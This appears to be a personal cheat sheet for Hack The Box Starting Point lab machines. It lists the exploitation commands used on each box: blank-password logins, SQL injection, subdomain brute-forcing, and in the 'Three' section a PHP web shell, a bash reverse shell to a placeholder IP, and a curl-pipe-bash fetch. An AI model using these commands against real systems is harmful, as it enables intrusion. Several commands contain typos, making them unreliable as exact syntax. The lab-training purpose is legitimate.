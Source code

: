 # TIER 0

### Meow  
telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

### Explosion
RDP as Administrator, no password  
xfreerdp /v:Administrator /cert:ignore /v:{IP-addess}  

### Preignition
gobuster -x php {IP-address}
http://{IP-address}/admini.php

# TIER 1
### Appoinment
SQLI on login page-> admin'#  

### Sequel
mysql -h {IP-address} -u root
SHOW databases;
USE htb; SHOW tables; SELECT * FROM config;

### Crocodile
ftp anonymous to get list of usernames/passwords
gobustoer -x php to find login.php
admin user goes to server page showing flag  

### Responder  
sudo get install evil-winrm  
evit-winrm -u Administrator -p badminton -i {IP-address}  

### Three  
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/DNS/subdomains-top1million-5000.txt  
gobuster vhost -w ./subdomains-top1million5000.txt -u http://thetoppers.htb  
yields "s3".thetopppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb  
echo '<?php system($_GET["cmd"]); ?>' > shell.php  
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb  
http://thetoppers.htb/shell.php?cmd=id  
create shell.sh  
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

nc -nvlp 1337
python3 -m http.server 8000  
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash  

### Ignition
http://ignition.htb/admin
admin:qwerty123

### Bike
SSTI send {{7+7}}  BURP repeater to ahve "Handlebars" provide data  

### Pennyworth
Jenkins/Groovy script for a reverse shell

### Tactics
SMB share, retrieve flag.txt  


